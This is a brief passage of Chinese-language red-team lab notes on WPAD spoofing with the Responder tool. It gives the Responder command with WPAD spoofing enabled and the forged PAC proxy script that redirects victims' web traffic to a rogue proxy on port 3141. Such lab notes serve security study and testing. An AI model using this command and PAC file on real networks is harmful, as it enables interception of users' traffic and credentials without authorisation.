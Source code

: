   ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/20.png)

---

## WPAD

```
responder -I eth0 -r on -v -F on -w on
```

Responder 通过伪造如下 pac 文件将代理指向 ISAProxySrv:3141
```
function FindProxyForURL(url, host){
  if ((host == "localhost")
      || shExpMatch(host, "localhost.*")
      ||(host == "127.0.0.1")
      || isPlainHostName(host)) return "DIRECT";
  if (dnsDomainIs(host, "RespProxySrv")
      ||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)"))
    			return "DIRECT";
  return 'PROXY ISAProxySrv:3141; DIRECT';}
```

